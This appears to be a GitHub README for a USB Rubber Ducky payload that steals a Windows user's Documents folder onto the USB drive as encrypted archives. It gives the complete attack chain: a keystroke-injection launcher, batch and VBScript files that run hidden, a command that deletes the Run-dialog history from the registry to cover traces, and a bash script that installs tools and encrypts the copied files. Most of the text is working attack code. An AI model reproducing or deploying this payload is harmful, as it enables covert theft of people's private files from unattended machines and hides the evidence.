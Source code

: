 Scripts for copying ".pdf" files from logged in user's document's directory

## How-To

> Compile slurp.ducky with the following command

```
java -jar duckencode.jar -i slurp.ducky -o /media/DK/inject.bin
```

> Copy following files to root directory of ducky drive

```
Paranoid_Pipes.sh
d.cmd
e.cmd
i.vbs
b.bash
```

> Generate one or two public keys for encryption and copy those keys
> to the root of the SD card too. This can be done manually or via `Gnupg_Gen_Key.sh`
> helper script.

```
parser.asc
rotate.asc
```

> Plug-in ducky to USB port of Windows host.
> Four blinks of capslock LED (the first time) means; payload has started.
> Four blinks (the second time) of capslock means; payload has finished
> sending commands and will be *slurping* shortly.

## How it works

> The slurp.ducky script emulates a keyboard opening the *start* menu and running the
> following command to get things kicked off.

```
powershell ".((gwmi win32_volume -f 'lable=''_''').Name+'d.cmd')"
```

> The d.cmd script is found and executed which among the comments runs the following
> lines to; first notify user that the process has started, and second run the e.cmd
> script in the background via the i.vbs script.

```
@echo off
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;"
cscript %~d0\i.vbs %~d0\e.cmd
@exit
```

> The i.vbs script only contains one line which uses some obfuscated fancieness to run
> the e.cmd (or any script with full paths or in current working directory) without
> a *pesky* terminal window being opened.

```
CreateObject("WScript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

> The e.cmd script is where run line history is deleted from Windows registry, a
> destination directory based off loged in user and time-stamp is made, and target
> directory if found is passed to the `b.bash` script to encrypt files to the USB drive.
> Finally when finished the capslock LED flashes four times again to signal the user
> that backups/copying has finished. Below are the lines used without comments.

```
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~-7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
set inst=%~d0\b.bash
mkdir %dst% >>nul
set tgt=%USERPROFILE%\Documents
if Exsist %tgt% (
START "" /B lxrun /install /y && START "" /B bash -c "sudo apt-get update -qqq && sudo apt-get install -yqqq gnupg git && ./%inst% \"%tgt%\" \"%dst%\"" 1>bash_install.log 2>1&
)
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;"
@cls
@exit
```

> The b.bash script is where some Bash magics are preformed to setup for encrypted backups
> Note that the variables, `Var_target` and `Var_destination` *should* correct for
> differances between OS enviroment file path seperators.

```
#!/usr/bin/env bash
Var_script_dir="${0%/*}"
Var_script_name="${0##*/}"
Var_old_pwd="${PWD}"
Var_start_date="$(date -u +%s)"
Var_project_url="https://github.com/S0AndS0/Perinoid_Pipes"
Var_project_main_script_name="Paranoid_Pipes.sh"
Var_target="${1//\\//}"
Var_destination="${2//\\//}"
Var_parsing_pub_key="${Var_script_dir}/parser.asc"
Var_rotate_pub_key="${Var_script_dir}/rotate.asc"
Var_log_file="${Var_destination}/${Var_start_date}_encrypter.log"
Var_parsing_recipient=""
Var_rotate_recipient=""
Var_script_copy_destination="${Var_destination}/${Var_start_date}_encrypter.sh"
Var_pipe_location="${Var_destination}/${Var_start_date}_encrypter.pipe"
Var_bulk_dir="${Var_destination}/${Var_start_date}_encrypter_bulk"
Var_output_file="${Var_destination}/${Var_start_date}_encrypter_results.gpg"
Var_quit_string="quit"
if ! [ -f "${Var_script_dir}/${Var_project_main_script_name}" ]; then
	cd "${Var_script_dir}"
	git clone ${Var_project_url}
	cp "${Var_project_url##*/}/${Var_project_main_script_name}" "${Var_script_dir}/"
else
	cd "${Var_script_dir}"
fi
if ! [ -e "${Var_project_main_script_name}" ]; then
	chmod u+x "${Var_project_main_script_name}"
fi
for _key in ${Var_parsing_pub_key} ${Var_rotate_pub_key}; do
	if [ -f "${_key}" ]; then
		gpg --no-tty --command-fd 0 --import ${_key} <<EOF
trust
5
quit
EOF
	fi
done
if [ -e "${Var_project_main_script_name}" ]; then
	./${Var_project_main_script_name}\
 --log-level='9'\
 --script-log-path="${Var_log_file}"\
 --enc-copy-save-yn='yes'\
 --enc-parsing-disown-yn='yes'\
 --enc-copy-save-path="${Var_script_copy_destination}"\
 --enc-pipe-file="${Var_pipe_location}"\
 --enc-parsing-bulk-out-dir="${Var_bulk_dir}"\
 --enc-parsing-output-file="${Var_output_file}"\
 --enc-parsing-recipient="${Var_parsing_recipient}"\
 --enc-parsing-output-rotate-recipient="${Var_rotate_recipient}"\
 --enc-parsing-quit-string="${Var_quit_string}"
fi
if [ -p "${Var_pipe_location}" ]; then
	echo "${Var_target}" > "${Var_pipe_location}"
	echo "${Var_quit_string}" > "${Var_pipe_location}"
fi
```

>

## Sources of information

Stealing Files with a USB Ruber Ducky Part 1 - Hak5 - 2112
YouTube link: https://youtu.be/48viMtzQ4rE

Stealing Files with a USB Ruber Ducky Part 2 - Hak5 - 2113
YouTube link: https://youtu.be/qzRTpG8TVK4
